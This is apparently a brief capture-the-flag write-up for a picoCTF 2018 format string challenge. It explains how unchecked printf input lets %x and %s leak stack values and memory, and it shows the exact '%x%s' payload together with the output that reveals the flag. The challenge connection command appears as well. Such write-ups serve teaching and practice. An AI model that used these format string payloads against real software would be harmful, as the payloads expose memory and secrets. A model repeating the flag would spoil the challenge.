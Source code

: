 [Category:Picoctf](/Category:Picoctf "wikilink") This program prints any
input you give it. Can you leak the flag? Connect with nc
2018shell.picoctf.com 3981. Source.

the vulnerability is that if you can put arbitrary string in a printf
function we can manipulate it into printing memory addresses with %x and
values at memory addresses with %s this combined is very bad :)

because it follows the stack we just have to put in the right amount of
%x%s which is 4

`> %x%s %x%s %x%s %x%s `
`40� �����  ��� p�� p�� p�� p�� p�� p�   8048  fff942a4picoCTF{foRm4t_stRinGs_aRe_DanGer0us_36de83c4} `
`>`